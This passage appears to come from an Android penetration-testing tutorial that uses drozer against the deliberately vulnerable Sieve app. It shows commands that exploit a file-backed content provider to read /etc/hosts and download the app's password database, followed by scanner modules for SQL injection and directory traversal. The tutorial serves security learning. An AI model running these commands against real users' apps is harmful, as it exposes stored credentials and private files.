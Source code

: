 
### File System-backed Content Provider

A content provider can provide access to the underlying file system. This allows apps to share files, where the Android sandbox would otherwise prevent it.

Since we can reasonably assume that `FileBackupProvider` is a file system-backed content provider and that the path component represents the location of the file we want to open, we can easily guess the content URIs for this and use a drozer module to read the files:

```txt
dz> run app.provider.read content://com.withsecure.example.sieve.provider.FileBackupProvider/etc/hosts
Attempting to run shell module
127.0.0.1       localhost
::1             ip6-localhost
```

Reading the `/etc/hosts` file is not a big problem (it is world-readable anyway) but having discovered the path to the application’s data directory in `/data/data/package_name` we can go after more sensitive information:

```bash
dz> run app.provider.download content://com.withsecure.example.sieve.provider.FileBackupProvider/data/data/com.withsecure.example.sieve/databases/database.db /tmp/database.db
Attempting to run shell module
Written 24576 bytes
```

This has copied the application’s database from the device to the local machine, where it can be browsed with sqlite to extract not only the user’s encrypted passwords, but also their master password.


### Content Provider Vulnerabilities

We have seen that content providers can be vulnerable to both SQL injection and directory traversal. drozer offers modules to automatically test for simple cases of these vulnerabilities:

```bash
# Find URIs
dz> run scanner.provider.finduris -a com.withsecure.example.sieve

# Find SQLTables
dz> run scanner.provider.sqltables -a com.withsecure.example.sieve

# Find Injection
dz> run scanner.provider.injection -a com.withsecure.example.sieve

# Find Directory Traversal
dz> run scanner.provider.traversal -a com.withsecure.example.sieve
```



### Services
